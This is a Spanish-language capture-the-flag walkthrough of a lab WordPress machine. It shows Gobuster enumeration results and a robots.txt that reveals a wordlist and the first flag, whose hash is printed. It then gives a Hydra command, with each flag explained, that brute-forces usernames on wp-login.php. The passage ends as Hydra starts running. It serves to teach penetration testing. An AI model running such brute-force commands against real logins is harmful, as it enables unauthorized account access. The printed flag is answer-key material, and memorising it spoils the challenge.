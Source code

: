 ```bash
/0                    (Status: 301) [Size: 0] [--> http://10.0.1.14/0/]
/audio                (Status: 301) [Size: 231] [--> http://10.0.1.14/audio/]
/sitemap              (Status: 200) [Size: 0]
/admin                (Status: 301) [Size: 231] [--> http://10.0.1.14/admin/]
/feed                 (Status: 301) [Size: 0] [--> http://10.0.1.14/feed/]
/robots               (Status: 200) [Size: 41]
/dashboard            (Status: 302) [Size: 0] [--> http://10.0.1.14/wp-admin/]
/login                (Status: 302) [Size: 0] [--> http://10.0.1.14/wp-login.php]
/phpmyadmin           (Status: 403) [Size: 94]
/intro                (Status: 200) [Size: 516314]
/license              (Status: 200) [Size: 19930]
/wp-content           (Status: 301) [Size: 236] [--> http://10.0.1.14/wp-content/]
/css                  (Status: 301) [Size: 229] [--> http://10.0.1.14/css/]
/js                   (Status: 301) [Size: 228] [--> http://10.0.1.14/js/]
/rss2                 (Status: 301) [Size: 0] [--> http://10.0.1.14/feed/]
/atom                 (Status: 301) [Size: 0] [--> http://10.0.1.14/feed/atom/]
/wp-admin             (Status: 301) [Size: 234] [--> http://10.0.1.14/wp-admin/]
/readme               (Status: 200) [Size: 7334]
/xmlrpc               (Status: 405) [Size: 42]
/%20                  (Status: 301) [Size: 0] [--> http://10.0.1.14/]
/page1                (Status: 301) [Size: 0] [--> http://10.0.1.14/]
/0000                 (Status: 301) [Size: 0] [--> http://10.0.1.14/0000/]
```
Encontramos el archivo robots.txt, utilizado para controlar qué partes de un sitio web pueden ser indexadas por los motores de búsqueda, observamos dos ficheros,
```bash
User-agent: *
fsocity.dic
key-1-of-3.txt
```
Si nos dirigimos al fichero key-1-of-3.txt, obtendremos la primera clave
```bash
073403c8a58a1f80d943455fb30724b9
```

# Foothold
Con Gobuster descubrimos una página de inicio de sesión, wp-login.php, y en robots.txt encontramos un archivo llamado fsocity.dic. Este archivo es un diccionario que podemos utilizar para llevar a cabo un ataque de fuerza bruta y verificar si obtenemos acceso al inicio de sesión de WordPress. En WordPress, la plataforma proporciona una respuesta distinta cuando el nombre de usuario es válido pero la contraseña no lo es  

Usaremos Hydra para determinar el nombre de usuario utilizando el diccionario fsocity.dic
  - -L: Especificando el diccionario que hemos obtenido: fsocity.dic
  - -p: Especificando una contraseña aleatoria
  - http-post-form: Especificando el método de publicación HTTP a utilizar
  - /wp-login.php: URL de la página de inicio de sesión
  - log=^USER^&pwd=^PASS^: Reemplazará USER con valores de la lista de usuarios y PASS con el valor de -p
  - :Invalid username: El mensaje de error devuelto cuando falla el intento de inicio de sesión
```bash
hydra -L fsocity.dic -p 1234 10.0.1.14 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username"
```
Resultado:
```bash
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-04-30 11:55:57
[DATA] max 16 tasks per 1 server, overall 16 tasks, 858235 login tries (l:858235/p:1), ~53640 tries per task
[DATA] attacking http-post-form://10.0.1.14:80/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username
```